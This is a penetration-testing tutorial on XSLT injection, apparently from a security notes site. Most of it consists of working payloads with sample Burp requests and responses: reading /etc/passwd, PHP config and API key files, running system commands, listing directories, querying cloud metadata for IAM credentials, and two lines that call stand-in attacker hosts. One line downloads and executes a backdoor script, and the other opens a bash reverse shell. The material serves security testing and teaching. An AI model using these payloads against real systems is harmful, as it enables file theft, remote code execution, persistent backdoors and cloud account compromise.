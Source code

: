 # 👀 XSLT

#### **Understanding the Vulnerabilities**

XSLT (eXtensible Stylesheet Language Transformations) is a powerful language used to transform XML documents into various formats like HTML, plain text, or other XML structures. However, its powerful functionality can become a double-edged sword when mishandled, especially in server-side processing.

When a server processes XSLT inputs from untrusted sources, it becomes vulnerable to injection attacks. Malicious actors can leverage XSLT to achieve Local File Inclusion (LFI), Remote Code Execution (RCE), or even data exfiltration. Let’s dive into the complexities, provide real-world examples, and explore the possibilities attackers can exploit.

#### **Step 1: Identifying Potential XSLT Usage**

**Scenario: Analyzing Server Responses**

Imagine you’re testing a web application that accepts XML-based input. You upload an XML document, and the response contains some suspicious output. For instance, let’s say the server echoes transformed data like this:

```markup
<transformation>
    <result>This is transformed content</result>
</transformation>
```

**Signs of XSLT Usage**

1. **Endpoints Accepting XML Payloads**:\
   Endpoints like `/process-xml` or `/transform` may suggest XML processing.
2. **Headers in HTTP Responses**:\
   Look for headers such as `Content-Type: application/xml` or `X-Processed-By: XSLTProcessor`.
3. **Error Messages**:\
   If your payload triggers an error, detailed stack traces may reveal underlying XSLT functionality, such as:

```markup
XSLTProcessor::transformToDoc() failed: unexpected tag in expression.
```

#### **Local File Inclusion (LFI) via XSLT**

**Understanding the Risk**

With XSLT 2.0, the `unparsed-text()` function can be used to read local files on the server. If the XSLT processor is improperly configured or doesn’t validate input, attackers can use this to read sensitive files, such as `/etc/passwd` or application configuration files.

**Example Payload: Reading `/etc/passwd`**

Once you’ve confirmed that XSLT injection is possible, test for LFI by attempting to read sensitive files:

**Malicious Payload**:

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
        <xsl:value-of select="unparsed-text('/etc/passwd')" />
    </xsl:template>
</xsl:stylesheet>
```

***

**Request and Response in Burp Suite**

**Request**:

```http
POST /process-xml HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: 456

<?xml version="1.0"?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
        <xsl:value-of select="unparsed-text('/etc/passwd')" />
    </xsl:template>
</xsl:stylesheet>
```

**Response**:

```sh
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

This confirms that the application allows reading local files using XSLT 2.0’s `unparsed-text()` function.

***

**LFI with PHP-Integrated XSLT Libraries**

If the XSLT processor integrates with PHP and is configured to allow PHP function calls, an attacker can escalate the attack using the `file_get_contents()` function. This provides broader compatibility and flexibility for reading files.

**Example Payload: Using `file_get_contents()`**

```xml
<xsl:value-of select="php:function('file_get_contents', '/etc/passwd')" />
```

This variant relies on the PHP integration and demonstrates how misconfiguration can expand an attack’s reach. The same logic can be applied to access sensitive application data:

```xml
<xsl:value-of select="php:function('file_get_contents', '/var/www/html/config.php')" />
```

**Complex Example: Targeting API Keys**

Suppose the application stores API keys in a file:

```xml
<xsl:value-of select="php:function('file_get_contents', '/var/www/secrets/api_key.txt')" />
```

The attacker gains direct access to the key, potentially allowing further API misuse or data exfiltration.

***

#### **Remote Code Execution (RCE) via XSLT**

**Why RCE is Possible**

When XSLT processors support PHP functions or custom extensions, attackers can execute arbitrary commands by leveraging PHP functions like `system()`, `exec()`, or `shell_exec()`.

**Basic RCE Payload**

If PHP functions are enabled in the XSLT processor, test for RCE by invoking system commands:

**Malicious Payload**:

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
        <xsl:value-of select="php:function('system', 'id')" />
    </xsl:template>
</xsl:stylesheet>
```

***

**Response in Burp Suite**

**Request**:

```http
POST /process-xml HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: 456

<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
        <xsl:value-of select="php:function('system', 'id')" />
    </xsl:template>
</xsl:stylesheet>
```

**Response**:

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The output confirms RCE, as the `id` command reveals the server’s user context.

**Escalating to Sensitive File Access**

Another common payload targets specific files, such as a flag in Capture The Flag (CTF) scenarios or proprietary application files:

```xml
<xsl:value-of select="php:function('system', 'cat /flag.txt')" />
```

**Real-World RCE: Command Chaining**

In a real-world attack, an attacker could chain commands to create backdoors or exfiltrate data. For example:

```xml
<xsl:value-of select="php:function('system', 'wget http://malicious-site.com/backdoor.sh -O /tmp/backdoor.sh && bash /tmp/backdoor.sh')" />
```

This payload downloads a backdoor script and executes it, giving the attacker remote access to the system.

***

#### **Complex Payload Scenarios**

**Scenario 1: File Enumeration**

Attackers can enumerate files to locate sensitive information:

```xml
<xsl:for-each select="php:function('scandir', '/var/www/')">
    <xsl:value-of select="."/><xsl:text>&#10;</xsl:text>
</xsl:for-each>
```

This iterates through files in a directory and lists their names, helping attackers understand the system structure.

```markup
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
        <xsl:for-each select="php:function('scandir', '/var/www/')">
            <xsl:value-of select="."/><xsl:text>&#10;</xsl:text>
        </xsl:for-each>
    </xsl:template>
</xsl:stylesheet>
```

#### **Response**:

```markup
index.php
config.php
.htaccess
uploads
logs
backup.sql
```

**Scenario 2: Remote Shell Access**

Attackers can create a reverse shell to maintain persistent access:

```xml
<xsl:value-of select="php:function('system', 'bash -i >& /dev/tcp/attacker-ip/4444 0>&1')" />
```

This payload establishes a connection to the attacker’s machine, giving them a remote shell.

***

**Scenario 3: Targeting Cloud Metadata Services**

In cloud environments, attackers often target metadata services to extract sensitive details:

```xml
<xsl:value-of select="unparsed-text('http://169.254.169.254/latest/meta-data/iam/security-credentials/')" />
```

This payload retrieves cloud credentials, which could lead to full account compromise.
